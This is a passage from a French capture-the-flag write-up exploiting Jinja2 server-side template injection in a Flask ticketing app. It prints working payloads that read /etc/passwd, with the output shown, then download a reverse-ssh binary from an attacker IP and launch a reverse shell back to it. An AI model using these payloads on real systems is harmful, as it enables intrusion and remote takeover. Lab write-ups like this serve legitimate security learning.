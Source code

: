 {% endraw %}

Sur le listing des tickets tout semble correct mais en affichant les détails pour le dernier ticket soumis je vois que le code Python a été interprété :

> #### 12
> 
> **Status**: open  
> **ID**: 4281  
> 
> #### Description:
> 
> 14
> 
> **Sorry for the bright page, we are working on some beautiful CSS**

Ce qui m'a mis la puce à l'oreille c'est principalement le fait que Nmap a détecté le serveur comme `Werkzeug`. Quand on cherche *Werkzeug STTI* sur un moteur de recherche on trouve aussitôt des liens en rapport avec `Flask` et le moteur de template `Jinja2`.

Bien sûr [HackTricks a un article pour les STTI Jinja2](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#jinja-injection-without-less-than-class-object-greater-than) car *HackTricks* a des astuces pour tout 💜

Je scrolle à la recherche d'un exemple de STTI pas trop compliqué (qui ne nécessite pas trop d'introspection sur les objets présents) et je trouve une section qui fait mon bonheur :

{% raw %}
```python
{{ request.__class__._load_form_data.__globals__.__builtins__.open("/etc/passwd").read() }}
```
{% endraw %}

Nouveau ticket, affichage dans l'appli web et hop !

```
root:x:0:0:root:/root:/bin/bash
--- snip ---
saint:x:1000:1002:,,,:/home/saint:/bin/bash
jack:x:1001:1003:,,,:/home/jack:/bin/bash
mzfr:x:1002:1004:,,,:/home/mzfr:/bin/bash
```

On va le récupérer notre reverse shell :

{% raw %}
```python
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("cd /tmp;wget http://192.168.242.1/reverse-sshx64 -O reverse-sshx64;chmod 755 reverse-sshx64;").read() }}
```
{% endraw %}

et c'est parti :

{% raw %}
```python
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("nohup /tmp/reverse-sshx64 -p 80 192.168.242.1&").read() }}
```
{% endraw %}
